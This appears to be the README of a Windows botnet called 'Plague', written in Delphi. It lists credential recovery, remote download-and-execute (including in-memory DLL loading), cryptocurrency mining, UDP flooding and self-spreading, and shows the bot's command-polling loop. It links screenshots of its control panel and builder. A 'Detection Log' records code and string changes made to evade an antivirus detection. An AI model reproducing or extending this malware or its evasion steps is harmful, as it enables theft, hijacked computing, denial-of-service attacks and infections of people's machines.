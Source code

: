 # Plague
Just and older botnet, migrated from a private BitBucket repo.
Written in Delphi, targeting Windows computers. Plague is/was capable of spreading automatically using multiple lateral movement vectors.

## Features
### Basic Client Functions
* Restart
* Update
* Uninstall
### File Functions
* Download File
* Upload File
### Module Execution and Exploitation Functions
* Download and Execute [Drop method]
* Download and Execute [In-memory method]
* Download and Execute [DLL in-memory method]
* Password Recovery
* XMR Mining
* UDP Flood
### Control over the Spreading mechanisms

## Basic execution flow
The basic execution loop is defined in the main unit (Plague.lpr). Once this loop is reached, the execution of the bot instance stays essentially the same.

```delphi
Repeat
  Net.GetCommands; //Download the current command list
  For J:=1 to Net.CommandCount do Begin //Iterate through the available commands
    if Net.Commands[J].Type='Abort' then Begin //If an Abort command is found
      if CommandUnderExecution(Net.Commands[J]) then //and the given command is under execution
        AbortCommand(Net.Commands[J]); //then abort it
    end else Begin //If the command is not an Abort
      if Not(CommandUnderExecution(Net.Commands[J])) then Begin //and it's awaiting execution
        I:=FindAPlace; //then find an empty place in the Worker Array
        NewWorker(I, Net.Commands[J]); //and create a new Worker to execute the command.
      end;
    end;
  End;
  Sleep(Delay); //Wait before contacting the server again
Until False; //Endless loop
```
## Screenshots

<p align="center">
  <img alt="Login interface" src="https://i.imgur.com/M7Ye0M3.png">
  <img alt="Bot list" src="https://i.imgur.com/HFDeFPz.png">
  <img alt="World map" src="https://i.imgur.com/2N95UCw.png">
  <img alt="Builder" src="https://i.imgur.com/GBCDyqo.png">
</p>

## Detection Log
1/29/2019 --> ![Eset](https://i.imgur.com/qM8FDvK.png) Eset NOD32 - a variant of Win32/Agent.TMP trojan

 * **Tools** --> OpenURL --> `ShellExecute` changed to `ShellExecuteW`
 * **CmdWorker** --> Execute --> Mine --> String `config.json` moved to Protected String Storage
 * **CmdWorker** --> Execute --> MemExec --> String `MemExec` added to String Table as `bb32d835`
 * **CmdWorker** --> Execute --> DropExec --> String `DropExec` added to String Table as `896bb1db`
 * **CmdWorker** --> Execute --> Download --> String `Download successful.` moved to Protected String Storage
